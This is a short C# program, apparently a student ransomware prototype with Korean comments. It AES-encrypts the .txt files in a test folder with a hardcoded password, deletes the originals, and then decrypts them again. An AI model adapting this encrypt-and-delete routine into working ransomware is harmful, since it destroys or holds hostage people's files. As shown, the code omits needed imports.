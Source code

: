 #C#

using System;
using SharpAESCrypt;

namespace Test
{
    class Program
    {
        static void Main(string[] args)
        {

            //경로 지정
            string dir = @"C:/Layer7Project/Ransomware/test/";
            List<string> files = new List<string>();
            DirectoryInfo d = new DirectoryInfo(dir);


            //원하는 파일의 형식(여러개도 가능)
            foreach (var file in d.GetFiles("*.txt"))
            {
                files.Add(file.ToString());
            }


            //암호화
            foreach (string file in files)
            {
                string encrypted_file = dir + "encrypted_file.txt";
                SharpAESCrypt.SharpAESCrypt.Encrypt("password", file, encrypted_file);
                File.Delete(file);
                File.Move(encrypted_file, file);
            }

            //복호화
            foreach (string file in files)
            {
                string decrypted_file = dir + "decrypted_file.txt";
                SharpAESCrypt.SharpAESCrypt.Decrypt("password", file, decrypted_file);
                File.Delete(file);
                File.Move(decrypted_file, file);
            }
        }
    }
}
